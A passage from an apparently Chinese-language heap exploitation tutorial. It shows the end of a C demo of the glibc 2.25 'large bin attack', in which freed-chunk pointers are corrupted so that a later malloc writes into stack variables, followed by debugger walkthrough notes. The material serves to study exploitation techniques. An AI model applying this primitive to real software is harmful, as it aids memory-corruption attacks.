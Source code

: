```c
    p2[0] = 0;
    p2[2] = 0;
    p2[1] = (unsigned long)(&stack_var1 - 2);
    p2[3] = (unsigned long)(&stack_var2 - 4);

    //------------------------------------

    malloc(0x90);

    fprintf(stderr, "Let's malloc again, so the freed third large chunk being inserted into the large bin freelist."
                    " During this time, targets should have already been rewritten:\n");

    fprintf(stderr, "stack_var1 (%p): %p\n", &stack_var1, (void *)stack_var1);
    fprintf(stderr, "stack_var2 (%p): %p\n", &stack_var2, (void *)stack_var2);

    return 0;
}

```



编译完以后，注意！一定要用 glibc2.25 的 loader，改变 loader 的方法可以看这里：https://www.jianshu.com/p/1a966b62b3d4





pwngdb 走起，开始我们的分析之旅：



![](./figure/large_bin_attack/large_bin_attack1.png)





先跳到这个语句：（比 how2heap 源文件多添加了一个 p4 变量）



![](./figure/large_bin_attack/large_bin_attack2.png)
